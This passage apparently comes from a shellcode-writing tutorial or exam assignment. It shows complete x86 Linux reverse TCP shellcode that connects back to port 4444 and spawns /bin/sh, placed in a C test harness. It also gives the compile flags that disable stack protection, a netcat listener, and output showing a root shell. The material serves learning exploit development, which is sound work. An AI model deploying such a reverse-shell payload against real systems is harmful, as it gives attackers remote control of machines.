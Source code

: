 Now we'll take the dumped shellcode and place it in a C file, we do this to confirm it works in a C program.

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x31\xf6\x89\xc6\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xd2\xba\x82\x03\x03\x04\x81\xea\x03\x03\x03\x03\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe2\x6a\x10\x52\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x02\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xf6\x31\xd2\xcd\x80";


main(){

        printf("Shellcode Length: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

Once that's done we're going to need to compile it:
```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment/# gcc -fno-stack-protector -z execstack testingShellcode.c -o testingShellcode
```

And we're done!

## Testing our shell

To test our shell open a new terminal and enter the following command (If you used a different port make sure to use it here instead of 4444)

This shell command will open a TCP socket connection on the specified port.

```
nc -v -l 4444
```

The terminal will hang in a listeneing state until it receives a connection on that port.


Now in a separate terminal let's run our compiled shellcode!

```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment/testShellcode# ./testingShellcode
Shellcode Length: 97

```

It should hang like our previous command, but if we go back to our listener...

You can see we have a shell!

```
root@ubuntu:/home/ubuntu# nc -v -l 4444
Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
uid=0(root) gid=0(root) groups=0(root)
```
